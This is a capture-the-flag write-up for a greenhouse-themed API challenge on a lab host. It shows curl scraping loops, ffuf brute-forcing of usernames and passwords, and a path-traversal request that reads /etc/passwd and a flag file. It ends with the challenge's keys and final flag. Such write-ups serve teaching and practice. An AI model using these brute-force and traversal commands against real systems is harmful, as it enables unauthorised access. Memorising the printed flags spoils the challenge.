






# Visiting the site

It is an API documentation with a couple of endpoints and their parameters documented.



The raw form for it can be found in [apispec_1.json](workdir/apispec_1.json).

# API

There are some plant and some greenhouse related endpoints, most of the require no authentication. 

Listing the log files with `/greenhouse/logs/list` requires no authentication, but reading any actual logs does.

The `/plants` and `/plants/search` endpoints returns a limited `PlantSummary` object. Getting the random plant with `​/plants​/random` returns a full `Plant` object with slightly more info.

The `/plants/{plant_id}/habitat` returns a `Habitat` object and the `/plants/{plant_id}/hcareabitat` returns a `CareInstructions` one.

The `/flag` endpoint also requires the authentication token and 2 keys.

# Climate

Most of the information is simple text or number. The one exception is the `climate` inside the `Habitat`.

```json
{"climate":"VFdWa2FYUmxjbkpoYm1WaGJnPT0=","soil_ph":4.7,"typical_regions":["Himalayas"]}
```

It is base64 encoded twice. The one above decodes to `Mediterranean`.

# Scraping

The list of logs can be queried by visited the endpoints, [logs.json](workdir/logs.json).

Checking the search without filtering anything or the paginated plants endpoint gives us that there are 10000 entries in the database.

Scraping them from various endpoints is doable. The random one can return the same multiple times, so we run this for a while.

```bash
for i in {1..10000}; do curl -s -X GET "http://10.10.100.113:36700/plants/$i/habitat" -H  "accept: application/json" > habitat/$i.json; done
for i in {1..10000}; do curl -s -X GET "http://10.10.100.113:36700/plants/$i/care" -H  "accept: application/json" > care/$i.json; done
while [ "$(ls -1 plants_random | wc -l)" -lt 10000 ]; do sh -c 'X=$(curl -s -X GET "http://10.10.100.113:36700/plants/random" -H  "accept: application/json"); Y=$(echo $X | jq -r .id); echo $X > plants_random/$Y.json'; done
```

Decoding all the climate.

```bash
(for file in habitat/*; do cat $file | jq -r .climate | base64 -d | base64 -d; echo ; done) > climate.txt
```

# Outlier

There is special value amongst the climates.

```bash
sort -u climate.txt
```
```
Arid
Cool temperate
Dry
Highland
Humid subtropical
Humid tropical
key{1f_y0u_cut_0n3_tr33}
Mediterranean
Mild
Monsoon
Temperate
Tropical
Warm
```

This gives us one of the keys for the flag endpoint.

# Auth

Building a [wordlist](https://github.com/danielmiessler/SecLists/tree/master/Usernames) from male and female names, converting them lowercase, then fuzzing the auth endpoint with it as both user and password reveals the valid username, `susan`.

```bash
cat wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt | tr A-Z a-z  > names.txt
ffuf -fc 401 -X POST -H "accept: application/json" -H "Content-Type: application/json" -u http://10.10.100.113:36700/auth -d '{"username":"FUZZ","password":"FUZZ"}' -w ./names.txt
```



It only works halfway, the reply is the following.

```
{"message":"Password Reminder for susan: the user naturelover"}
```

Using the word `naturelover`, a password list can be crafted and another fuzzing for password can be done.

```bash
echo "naturelover" > pass.txt
rsmangler --file pass.txt --min 6 --max 15 > pass_mangled.txt
ffuf -fs 64 -X POST -H "accept: application/json" -H "Content-Type: application/json" -u http://10.10.100.113:36700/auth -d '{"username":"susan","password":"FUZZ"}' -w ./pass_mangled.txt
```



The basic variant was the password, there would have been no need for fuzzing. Authenticating reveals a secure admin token.

```bash
curl -X POST "http://10.10.100.113:36700/auth" -H  "accept: application/json" -H  "Content-Type: application/json" -d '{"username": "susan", "password": "naturelover"}'
```
```
{"message":"Login successful","x_admin_token":"admin123"}
```

# Logs

Scraping all the logs is possible now.

```bash
curl -s -X GET "http://10.10.100.113:36700/greenhouse/logs/list" -H  "accept: application/json" | jq -r .log_files[] | while IFS= read -r line; do curl -s -X GET "http://10.10.100.113:36700/greenhouse/logs?file=$line" -H  "accept: application/json" -H  "X-Admin-Token: admin123" -o logs/$line ; done
```

There is nothing interesting in the logs though.

# Path traversal

Almost any file can be read, not just the ones listed in the logs folder.

```bash
curl -s -G "http://10.10.100.113:36700/greenhouse/logs" -H  "accept: application/json" -H  "X-Admin-Token: admin123" --data-urlencode "file=.
./../etc/passwd" | jq
```



Some files are forbidden though, the source files for example, or other files in `/root`.

Reading the `/proc/self` for command line or environments reveal nothing.

After one too many guesses, the next key is in `../flag.txt`: `key{y0u_ar3_in_th3_gr33nh0us3}`.



# Flag exchange

Exchanging the keys for the flags is trivial now.

```bash
curl -s -X POST "http://10.10.100.113:36700/flag" -H  "accept: application/json" -H  "Content-Type: application/json" -H  "X-Admin-Token: admin123" --data-raw '{  "key1": "key{1f_y0u_cut_0n3_tr33}",  "key2": "key{y0u_ar3_in_th3_gr33nh0us3}"}' | jq
```



# Flag
`CQ25{pl4nt_tw0_m0re_tr33_instead_0f_0ne}`